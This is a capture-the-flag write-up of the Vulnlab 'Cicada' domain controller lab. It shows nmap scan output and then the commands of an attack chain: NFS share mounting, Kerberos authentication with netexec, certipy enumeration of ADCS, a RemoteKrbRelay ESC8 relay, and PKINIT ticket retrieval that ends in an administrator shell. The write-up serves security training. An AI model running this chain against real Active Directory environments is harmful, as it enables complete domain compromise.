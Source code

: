 
# Vulnlab - Cicada


```bash                                               
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0        
|_http-title: IIS Windows Server                          
| http-methods:                                   
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-11 18:09:49Z)
111/tcp  open  rpcbind?
| rpcinfo: 
|   program version    port/proto  service
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|_  100003  2,3,4       2049/tcp6  nfs
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-13T10:42:50
| Not valid after:  2025-09-13T10:42:50
| MD5:   2b54:f7f1:53c6:0241:c432:c868:1d86:5ec7
|_SHA-1: eef8:12f9:0a11:c0d5:16c1:c499:9abf:3341:4419:6a2b
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-13T10:42:50
| Not valid after:  2025-09-13T10:42:50
| MD5:   2b54:f7f1:53c6:0241:c432:c868:1d86:5ec7
|_SHA-1: eef8:12f9:0a11:c0d5:16c1:c499:9abf:3341:4419:6a2b
|_ssl-date: TLS randomness does not represent time
2049/tcp open  nfs           2-4 (RPC #100003)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA
| Public Key type: rsa
| Public Key bits: 2048
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-13T10:42:50
| Not valid after:  2025-09-13T10:42:50
| MD5:   2b54:f7f1:53c6:0241:c432:c868:1d86:5ec7
|_SHA-1: eef8:12f9:0a11:c0d5:16c1:c499:9abf:3341:4419:6a2b
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-10-11T18:11:17+00:00; +9s from scanner time.
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Issuer: commonName=DC-JPQ225.cicada.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-12T15:21:57
| Not valid after:  2025-03-14T15:21:57
| MD5:   e356:22df:9b7a:d588:46f6:a65e:3788:73e1
|_SHA-1: d206:e12e:961c:9184:3789:b9fd:c616:4942:c661:7ae7
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
```

Visiting the page as we have port 80 open, we get nothing but IIS default page

<img src="https://i.imgur.com/MJXrB7z.png"/>

# Enumerating shares

Next we can enumerate smb and nfs share while being unauthenticated, from smb we get an error message, so it might not be accessible without credentials or it's just NTLM authentication is disabled and only kerberos is allowed 

<img src="https://i.imgur.com/Q57PJy7.png"/>

With `showmount` we can list the directories that are available to be mapped from our host

<img src="https://i.imgur.com/n8SlJqe.png"/>

```bash
sudo mount -t nfs 10.10.89.234:/profiles  /home/arz/Vulnlabs/Cicada/share
```

<img src="https://i.imgur.com/c6j55lB.png"/>

From this share, we get home directories of domain users from which we can explore and create a list of users that maybe helpful in as-rep roasting or password spraying

<img src="https://i.imgur.com/oYCUxXO.png"/>

In administrator's directory, we have `vacation.png` file

<img src="https://i.imgur.com/el1PDyZ.png"/>

The image doesn't hold anything meaningful 

<img src="https://i.imgur.com/PUQm2yy.png"/>

However, from `Rosie.Powell`'s directory we have another image, `marketing.png`

<img src="https://i.imgur.com/50fwwBy.png"/>

This image holds a password, so we can try this on Rosie since it was in this user's directory

<img src="https://i.imgur.com/KT4Lzbi.png"/>

<img src="https://i.imgur.com/x807eFw.png"/>
But when enumerating the shares through netexec we'll be shown an error of "not supported"

<img src="https://i.imgur.com/BkNXSV2.png"/>

## Authenticating with kerberos

We saw the same error earlier with smbclient, so to authenticate with kerbeors just add `-k` as an argument also add the machine name which was found through nmap in hosts file

<img src="https://i.imgur.com/oLAX5QB.png"/>

```bash
nxc smb DC-JPQ225 -u 'Rosie.Powell' -d cicada.vl -p password -k 
```

<img src="https://i.imgur.com/7WZWAUx.png"/>

Alternatively we can use `getTGT` from impacket and `smbclient` to enumerate shares

<img src="https://i.imgur.com/qLj7x7U.png"/>

We already went through `profiles$` share as it was available for mounting on nfs, there's `CertEnroll` which means this server is also ADCS (Active Directory Certificate Services), we can enumerate for enabled/vulnerable certificate templates through `certipy` 

```bash
certipy-ad find -u 'Rosie.Powell' -vulnerable -stdout -k -no-pass -target DC-JPQ225
```

<img src="https://i.imgur.com/Sr8bOnf.png"/>

# Performing kerberos Relay with ESC8 

The output shows that web enrollment is enabled which is found very common to be vulnerable as relaying NTLM authentication is possible to the web enrollment service by coercing HTTP authentication  request for a certificate on behalf of domain controller but here we only have only one server also NTLM authentication is disabled from what we saw and self relaying isn't possible

It's possible to add a machine account if the quota allows us, this can be checked with netexec

<img src="https://i.imgur.com/EC28xqQ.png"/>

We can add a machine account by first spinning up a windows VM, connecting it to vulnlab's vpn, adding domain controller's IP as the DNS server and join it with the domain

<img src="https://i.imgur.com/mpgX0gz.png"/>

Set the DNS IP to domain controller

<img src="https://i.imgur.com/XpXWsHY.png"/>

To join this to a domain, go to `control panel`, `system` and then `reanme this pc (advanced)`

<img src="https://i.imgur.com/gBslSpA.png"/>

<img src="https://i.imgur.com/OppFho8.png"/>

<img src="https://i.imgur.com/KWDrwAs.png"/>


<img src="https://i.imgur.com/1zgA2Nt.png"/>

Now to perform kerberos realy on ADCS web enrollment, A tool called RemoteKrbRelay can be used which is similar to Krbrealyup except that this can be used to perform kerberos relay remotely instead of doing it locally 

<img src="https://i.imgur.com/obOyK1O.jpeg"/>

I do want to point an issue I faced, don't know if this was only with me but after compiling and running it, visual studio wasn't including `BouncyCastle` so the binary would scream for not having that dependency included

<img src="https://i.imgur.com/gCVkY2s.png"/>

This isn't a big issue as we can just place the dll in the folder from where we are executing the binary and it should work

```bash
RemoteKrbRelay.exe -adcs -template DomainController -victim dc-jpq225.cicada.vl -target dc-jpq225.cicada.vl -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3
```

<img src="https://i.imgur.com/CqgKPOy.png"/>

Copying the base64 pfx certificate, with `PKINIT tools` , we can request the NThash or TGT of domain controller and then use it to dump hash of domain admin

```bash
python3 /opt/PKINITtools/gettgtpkinit.py -pfx-base64 $(cat ./cert.pkcs12) -dc-ip IP cicada.vl/'DC-JPQ225$' dc.ccache
```

<img src="https://i.imgur.com/Og5HbwY.png"/>

<img src="https://i.imgur.com/2iEzIrc.png"/>

Retrieving TGT of administrator and then getting a shell through wmiexec

<img src="https://i.imgur.com/7tK6hKZ.png"/>

# References

- https://x.com/decoder_it/status/1842180729695842676
- https://github.com/CICADA8-Research/RemoteKrbRelay
